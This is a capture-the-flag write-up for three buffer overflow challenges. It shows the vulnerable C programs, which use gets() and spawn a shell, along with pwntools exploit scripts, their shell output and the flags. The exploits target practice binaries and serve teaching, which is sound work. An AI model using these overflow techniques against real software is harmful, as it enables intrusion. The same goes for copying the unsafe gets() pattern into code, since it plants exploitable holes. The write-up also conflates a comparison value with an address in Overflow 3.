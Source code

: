 # Overflow 1 (125 points)

## Description

ez overflow.

nc cyberyoddha.baycyber.net 10001

[Overflow1](resources/Overflow1.elf);
[Overflow1.c](resources/overflow1.c)

## Solution

Here is the file we were given.

```c
int main(void) {
  char str[] = "AAAA";
  char buf[16];

  gets(buf);
  
  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
}
```

Buffer is defined as 16, so let's write small python script using pwntools.

```python
from pwn import *

payload = "A"*16

s = remote("cyberyoddha.baycyber.net", 10001)
s.sendline(payload)
s.interactive()
```

```shell
$ python overflow1.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10001: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow1
$ cat flag.txt
CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

This task can be done easier: just enter 16 A using nc and get the flag

Flag: CYCTF\{st@ck_0v3rfl0ws_@r3_3z}

# Overflow 2 (225 points)

## Description

ez overflow (or is it?)

nc cyberyoddha.baycyber.net 10002

[Overflow2](resources/Overflow2.elf);
[Overflow2.c](resources/overflow2.c)

## Solution

Here is the file we were given.

```c
void run_shell(){
 system("/bin/sh");
}

void vuln(){
 char buf[16];
 gets(buf);
}

int main(void) {
 vuln();  
}
```

So we need to jump over to **run_shell** function using buffer overflow.
[Writeup for a similar task](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Let's find address of **run_shell** function using **objdump**

```shell
$ objdump -d overflow2
...
08049172 <run_shell>:                
 8049172:       55                      push   %ebp
 8049173:       89 e5                   mov    %esp,%ebp
 8049175:       53                      push   %ebx
 8049176:       83 ec 04                sub    $0x4,%esp
 8049179:       e8 63 00 00 00          call   80491e1 <__x86.get_pc_thunk.ax>
 804917e:       05 82 2e 00 00          add    $0x2e82,%eax
 8049183:       83 ec 0c                sub    $0xc,%esp
...
```

Address is **0x8049172** and buffer size is 28. Now let's open python and write another script:

```python
from pwn import *

payload = "A"*28
payload += p32(0x8049172)
s = remote("cyberyoddha.baycyber.net", 10002)
s.sendline(payload)
s.interactive()
```

```shell
$ python overflow2.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10002: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow2
$ cat flag.txt
CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}
```

Flag: CYCTF\{0v3rfl0w!ng_v@ri@bl3$_i$_3z}

# Overflow 3 (250 points)

## Description

looks like buffer overflows aren’t so easy anymore.

nc cyberyoddha.baycyber.net 10003

[Overflow3](resources/Overflow3.elf);
[Overflow3.c](resources/overflow3.c)

## Solution

Here is the file we were given.

```c
int main(void) {
 long vuln = 0;
        char buf[16];

 gets(buf);

 if (vuln == 0xd3adb33f){
  system("/bin/sh");
 }
}
```

Address is **0xd3adb33f** and buffer size is 16. Now let's open python and write another script:

```python
from pwn import *

payload = "A"*28
payload += p32(0xd3adb33f)
s = remote("cyberyoddha.baycyber.net", 10003)
s.sendline(payload)
s.interactive()
```

```shell
$ python overflow3.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10003: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow3
$ cat flag.txt
CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}
```

Flag: CYCTF\{wh0@_y0u_jump3d_t0_th3_funct!0n}